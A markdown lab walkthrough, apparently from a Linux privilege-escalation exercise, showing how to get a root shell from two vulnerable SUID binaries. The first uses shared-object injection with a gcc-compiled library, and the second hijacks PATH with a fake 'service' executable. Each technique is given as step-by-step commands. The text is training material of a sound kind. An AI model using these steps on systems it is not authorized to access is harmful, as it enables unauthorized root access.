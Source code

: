 ## SUID / SGID Executables - Shared Object Injection

> Run strace on the file and search the output for open/access calls and for "no such file" errors:
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

> Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

> now we will create the .config directory for the libcalc.so file 
```
mkdir /home/user/.config
```

> Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

> now just execute the `/usr/local/bin/suid-so` and we will get a root shell instead of that progress bar.


## SUID / SGID Executables - Environment Variables

> The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

> first execute the file and note that it seems to be trying to start apache2 webserver. run strings on that binary to see strings of printable character

```
strings /usr/local/bin/suid-env

``` 

> One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

> Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:
```
gcc -o service /home/user/tools/suid/service.c
```
> Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:
```
PATH=.:$PATH /usr/local/bin/suid-env
```


## SUID / SGID Executables - Abusing Shell Features (#1)
